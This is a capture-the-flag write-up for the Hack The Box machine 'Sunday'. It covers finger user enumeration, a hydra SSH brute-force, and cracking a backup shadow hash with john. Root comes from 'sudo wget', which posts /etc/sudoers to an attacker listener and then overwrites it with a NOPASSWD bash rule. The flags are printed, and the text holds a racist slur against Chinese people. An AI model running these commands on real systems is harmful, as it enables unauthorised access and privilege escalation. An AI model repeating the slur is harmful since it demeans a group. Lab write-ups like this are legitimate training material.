








# [cd ../](../index.md)

---

# Sunday writeup by M4t35Z

Name | Sunday
--- | ---
IP | 10.10.10.76
OS | Solaris
Points | Easy(20)

# Recon
[nmap(fast)](recon/fast.txt)  
[nmap(big)](recon/big.txt)  

## Interesting
The box runs solaris(just a unix like os)
The most interesting port is `79` we could enumerate more on this `fingerd` service
We have `ssh` on `22022` btw(thats weird af)

# Fingerd(`port 79`)

```
finger @10.10.10.76
```

We got nothing cuz this box is old af and rated 1.4 so no1 is doin it rn except me XD
Btw I looked at a writeup and it said the user is `sunny` i hope i dont get pranked by that and waste an hour of bruting with a bad username.

OOH W8 there is a [2015 script by pentestmonkey](https://github.com/pentestmonkey/finger-user-enum)  
Run it!
```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```
We have `sunny` and `root` too.

# SSH
Just brute it cuz lot of old boxes involves brute-forcing with rockyou. (They werent hammered by ~10k retards in the past like boxes nowadays that do **NOT** involves bruting the shit out of the box)  

Now, just open a new term and use hydra to brute ssh.
```
hydra -V -I -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

Daaaamn thats a long ass command! (but its working)  
  
And we finally got it after a half hour on vip  
  

## Tha cR3d5: `sunny:sunday`

Now just log into ssh and enjoy the sunshin wtf am I writing now hell nah this just a solaris box that needs to be rooted and I have to do some shit homework after that cuz its 2020 March 26 and we are fkin homeschooling cuz of COVID19. Yeah some chinese bat eater fucker....  
**BTW STAY HOME STAY SAFE**

W8 dafuq is that?!  


```
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```
And we are finally inside! :O I mean we are on the box  


Ohh u thought we have the user flag. NOPE  
Just `cat /etc/passwd` and u will see whats the situation.  
We have an other user `sammy` fuuuu  

## Privesc to `sammy`
Idk why but this ssh shell is so fkin laggy maybe some1 bruting the box hehexd  
Just try some basic privesc vector like `sudo -l` or just searching for backups like `/backup`  
We got a troll for `sudo -l`  
  
But there are some hashes in `/backup/shadow.backup`!  
  

### Lets fire up `john`!

```
john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash
```

Now u just have to wait! Get a cup of tea or just wash ur hands cuz COVID19 everywhere!  

## Finally we got the creds: `sammy:cooldude!`
*Just log in and enjoy the laggy shell n tha f14G!*  


```
a3d9498027ca5187ba1793943ee8a598
```

## Privesc to `root` cuz r0071n 80x35 1ncr34535 PP s1z3
Just run `sudo -l` again :D  
We could run `sudo wget` wo any pw! Hell yeah!  

Just check out my writeup on [**thm wgel ctf**](https://matesz44.github.io/writeups/ctf/tryhackme/wgel_ctf/#getting-a-root-shell) and u could see a 1337 wget privesc there!

### Exploiting it
1. Make an nc listener `nc -lvp 1337 > sudoers`
2. Paste `sudo wget --post-file=/etc/sudoers 10.10.14.44:1337` to the ssh shell
3. Spam enters on ur nc listener
4. \<ctrl\>+c ur nc
5. Open the file!

Voila!  
  
**Make sure u DELETE THE CURL JUNK from the beginning of the file otherwise say bye to the box and reset it cuz it breaks sudoers!**  
Just make a new line
```
sammy ALL=(root) NOPASSWD: /bin/bash
```

1. Save it (on attacker)
2. Host a `python3 -m http.server 80` (on attacker)
2. `cd /etc` (on victim)
3. Download it with wget as sudo (on victim)
  ```
  sudo wget http://10.10.14.44/sudoers --output-document=sudoers
  ```
4. Run `sudo -l`
5. Run `sudo /bin/bash`
6. Enjoy ur rootshell!

# Got root and got the root flag

```
fb40fab61d99d37536daeec0d97af9b8
```

